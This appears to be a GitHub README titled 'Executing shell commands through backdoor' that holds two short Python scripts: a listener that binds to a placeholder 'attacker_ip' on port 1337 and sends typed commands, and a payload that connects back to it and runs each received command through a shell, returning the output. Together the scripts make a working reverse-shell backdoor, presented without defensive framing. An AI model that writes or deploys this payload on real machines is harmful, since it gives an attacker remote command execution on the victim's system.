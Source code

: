 <h2 align="center">Executing shell commands through backdoor</h2>
<p align="center"><img width="350" height="350" src="./src/banner_cnph.gif"></p>

- - - - - - - - - - - - - - - - - - - - - -
> [listener.py](listener.py)
```python
import socket

listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

listener.bind(("attacker_ip", 1337))

listener.listen()

print("Server has started")

connection, address = listener.accept()
print(f"Connected to {address}")

while True:
	cmd = input("enter a command: ")
	
	## if you want to quit and close the connection
	if cmd == "quit":
		connection.send(b"quit") # send quit message in bytes
		connection.close()	# close the connection
		break				# break the loop to stop
		
	connection.send(bytes(cmd, "utf-8")) 
	
	output = connection.recv(2048)
	print(output.decode("utf-8"))

print("Server has stopped")
```
---
> [payload.py](payload.py)
```python
import socket
import subprocess

payload = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

payload.connect(("attacker_ip", 1337))

print("Connected")

while True:
	cmd = payload.recv(2048)
	
	## if you want to quit and close the connection
	if cmd == b"quit":
		payload.close() # close the connection
		break			# break the loop to stop
		
	cmd = cmd.decode("utf-8")
	output = subprocess.check_output(cmd, shell = True)
	payload.send(output)

print("Disconnected") # display disconnection message
```